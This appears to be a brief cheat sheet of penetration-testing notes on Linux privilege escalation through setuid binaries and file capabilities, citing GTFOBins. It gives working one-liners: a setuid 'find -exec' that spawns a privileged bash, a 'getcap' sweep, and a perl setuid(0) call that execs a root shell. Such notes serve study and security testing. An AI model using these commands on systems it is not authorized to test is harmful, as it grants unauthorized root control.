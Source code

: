 # Abusing Setuid Binaries and Capabilities

look for gtfobins [https://gtfobins.github.io/](https://gtfobins.github.io/)

eg if `find` has suid...

```
find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
```

gives a root shell.


check capabilities:

```
/usr/sbin/getcap -r / 2>/dev/null
```

eg `/usr/bin/perl` might have `cap_setuid+ep`

```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

gives root shell


# Sudo

```
sudo -l
```


